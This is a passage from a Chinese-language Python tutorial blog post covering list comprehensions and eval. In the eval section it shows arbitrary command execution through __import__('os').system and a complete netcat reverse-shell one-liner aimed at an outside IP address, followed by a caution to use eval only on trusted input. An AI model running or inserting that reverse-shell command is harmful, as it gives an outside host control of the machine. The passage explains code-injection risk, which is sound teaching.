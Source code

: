 ```python
```
其实这个用生成器表达式来解释可能会更简单清楚
```python
result = [item for item in iterable if function(item)]
```
等价于
```python
result = list(filter(fun, iterable))
```
如果从代码简单易读的角度我还是比较喜欢列表解析。




## 0x0B eval
这个没`exec`过瘾，因为`exec`可以执行代码块，`eval`只能执行单行代码,不过还是可以玩
```
In [23]: s
Out[23]: "__import__('os').system('uname -a')"

In [24]: eval(s)
Linux qcloud 4.4.0-83-generic #106-Ubuntu SMP Mon Jun 26 17:54:43 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
Out[24]: 0
      
```
当然弹shell也是可以的，这个难度等级似乎比用`exec`高了一点，不过还好

试过了各种`python`、`bash`, `sh`和`perl`弹shell脚本，这但是他们大都嵌套太多的单双引号并且是分成了几句，给执行造成了一定的困难，不过难不倒瑞士军刀`nc`
```python
eval("__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 111.230.102.11 8080 >/tmp/f')")
```


![](http://oqyjccf1n.bkt.clouddn.com/20170904-205726.png)
回车之后
![](http://oqyjccf1n.bkt.clouddn.com/20170904-210053.png)

`exec`和`eval`在完全可信的输入的时候是可以用的，其他地方需要慎重

其实正常人的用法可能是这样的
```python
In [4]: s = '[1,2,3,4,5,4,3,3,2]'

In [5]: s
Out[5]: '[1,2,3,4,5,4,3,3,2]'

In [6]: type(s)
Out[6]: str

In [7]: t = eval(s)

In [8]: t
Out[8]: [1, 2, 3, 4, 5, 4, 3, 3, 2]

In [9]: type(t)
Out[9]: list

```
当然`eval`这种危险的方式还是可以避免的，转换成了`str`类型的字典和列表之类的，其实还是有办法转回来的
```python
In [96]: li
Out[96]: [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14]

In [97]: t = str(li)

```